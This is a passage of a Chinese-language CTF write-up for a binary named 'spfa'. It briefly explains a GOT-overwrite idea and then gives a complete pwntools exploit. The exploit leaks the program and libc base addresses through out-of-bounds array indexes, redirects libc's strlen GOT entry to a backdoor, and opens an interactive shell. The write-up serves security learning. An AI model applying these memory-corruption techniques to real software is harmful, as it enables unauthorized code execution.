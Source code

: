 但事实上，我们也可以通过改写 got 表的方法做到直接进入后门

> puts 中调用了 strlen 这一函数，而这一函数在 libc.so 的 got.plt 表中是可查到的

最后的 exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./spfa')
elf = ELF('./spfa')
libc = ELF('./libc-2.31.so')

# gdb.attach(sh, 'b puts')
sh.recvuntil(b'how many datas?\n>> ')
sh.sendline(b'4')

sh.recvuntil(b'how many nodes?\n>> ')
sh.sendline(b'2')
sh.recvuntil(b'how many edges?\n>> ')
sh.sendline(b'0')
sh.recvuntil(b'you want to start from which node?\n>> ')
sh.sendline(b'0')
sh.recvuntil(b'>> ')
sh.sendline(b'-2275')

sh.recvuntil(b'the length of the shortest path is ')
elf_base = int(sh.recv(15), 10) - 0x7008
print(hex(elf_base))

sh.recvuntil(b'how many nodes?\n>> ')
sh.sendline(b'2')
sh.recvuntil(b'how many edges?\n>> ')
sh.sendline(b'0')
sh.recvuntil(b'you want to start from which node?\n>> ')
sh.sendline(b'0')
sh.recvuntil(b'>> ')
payload = bytes(str((elf.got['puts'] - elf.sym['dist']) // 8).encode('UTF-8'))
sh.sendline(payload)

sh.recvuntil(b'the length of the shortest path is ')
libc_base = int(sh.recv(15), 10) - libc.sym['puts']
print(hex(libc_base))

strlen_addr = libc_base + 0x1eb0a8
dist_addr = elf_base + elf.sym['dist']
backdoor = elf_base + 0x16A5

sh.recvuntil(b'how many nodes?\n>> ')
sh.sendline(b'2')
sh.recvuntil(b'how many edges?\n>> ')
sh.sendline(b'1')
sh.recvuntil(b'format\n')
sh.sendline(b'1')
sh.sendline(bytes(str((strlen_addr - dist_addr) // 8).encode('UTF-8')))
sh.sendline(bytes(str(backdoor).encode('UTF-8')))
sh.recvuntil(b'you want to start from which node?\n>> ')
sh.sendline(b'1')
sh.recvuntil(b'>> ')
sh.sendline(b'HACKED')
sh.interactive()
```